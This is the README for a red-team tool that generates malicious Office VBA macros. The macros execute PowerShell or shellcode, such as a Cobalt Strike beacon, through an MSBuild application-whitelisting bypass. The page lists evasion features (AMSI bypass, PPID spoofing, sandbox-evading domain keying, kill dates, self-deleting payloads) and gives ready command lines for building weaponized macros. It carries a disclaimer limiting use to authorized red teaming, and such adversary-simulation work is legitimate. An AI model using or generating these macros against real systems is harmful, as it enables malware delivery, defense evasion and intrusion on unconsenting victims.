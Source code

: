 # Malicious Macro MSBuild Generator v2.1

## Description
Generates Malicious Macro and Execute Powershell or Shellcode via MSBuild Application Whitelisting Bypass, this tool intended for adversary simulation and red teaming purpose.

## Disclaimer
> MaliciousMacroMSBuild should be used for authorized red teaming and/or nonprofit educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

## Changelog
```
Version 2.1
-----------
+ Added sandbox evasion technique using environmental keying domain checking
+ Added Kill Date format dd/mm/yyyy [28/02/2018]
+ Move payload from public user to current user download folder

Version 2.0
-----------
+ Added Option Macro AMSI Bypass (Thanks to outflank team)
+ Added PPID Spoofing {9BA05972-F6A8-11CF-A442-00A0C90A8F39}
+ Added functionality auto removed csproj payload after execution
+ Added custom msbuild option
```

## Usage
```
 /$$      /$$  /$$$$$$   /$$$$$$ 
| $$$    /$$$ /$$__  $$ /$$__  $$
| $$$$  /$$$$|__/  \ $$| $$  \__/
| $$ $$/$$ $$   /$$$$$/| $$ /$$$$
| $$  $$$| $$  |___  $$| $$|_  $$
| $$\  $ | $$ /$$  \ $$| $$  \ $$
| $$ \/  | $$|  $$$$$$/|  $$$$$$/
|__/     |__/ \______/  \______/ 

Malicious Macro MSBuild Generator v2.1
Author : Rahmat Nurfauzi (@infosecn1nja)
   
usage: m3-gen.py [-h] -i INPUTFILE -p PAYLOAD -o OUTPUT [-a] [-d DOMAIN]
                 [-k KILL_DATE]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUTFILE, --inputfile INPUTFILE
                        Input file you want to embed into the macro
  -p PAYLOAD, --payload PAYLOAD
                        Choose a payload for powershell, raw shellcode or custom
  -o OUTPUT, --output OUTPUT
                        Output filename for the macro
  -a, --amsi_bypass     Macro AMSI Bypass Execute via ms office trusted location
  -d DOMAIN, --domain DOMAIN
                         Sandbox evasion technique using environmental keying domain checking. Use comma separating to set multiple domains
  -k KILL_DATE, --kill_date KILL_DATE
                        Set kill date format dd/MM/yyyy the payload do not run on or after this day
```

## Examples
* Choose a payload you want to test like shellcode or powershell, the shellcode support  stageless and staged payload
* Generate a raw shellcode in whatever framework you want (Cobalt Strike, Empire, PoshC2)

### Creation of a Shellcode MSBuild VBA Macro 
`python m3-gen.py -p shellcode -i /path/beacon.bin -o output.vba`

### Creation of a PowerShell MSBuild VBA Macro 
`python m3-gen.py -p powershell -i /path/payload.ps1 -o output.vba`

### Creation of a Custom MSBuild VBA Macro 
`python m3-gen.py -p custom -i /path/msbuild.xml -o output.vba`

### Creation of a Shellcode MSBuild VBA Macro With Kill Date
`python m3-gen.py -p shellcode -i /path/beacon.bin -o output.vba -k 20/03/2018`

### Creation of a Shellcode MSBuild VBA Macro With Environmental Keying
* `python m3-gen.py -p shellcode -i /path/beacon.bin -o output.vba -d yourdomain`
* `python m3-gen.py -p shellcode -i /path/beacon.bin -o output.vba -d yourdomain, microsoft, github`

## Links
* https://lolbas-project.github.io/lolbas/Binaries/Msbuild/
* https://attack.mitre.org/techniques/T1127/
* https://msdn.microsoft.com/en-us/library/dd722601.aspx

## Author and Credits
Author : Rahmat Nurfauzi - [@infosecn1nja](https://twitter.com/infosecn1nja)  
Credits : [@subTee](https://twitter.com/subtee) - For discovering msbuild technique
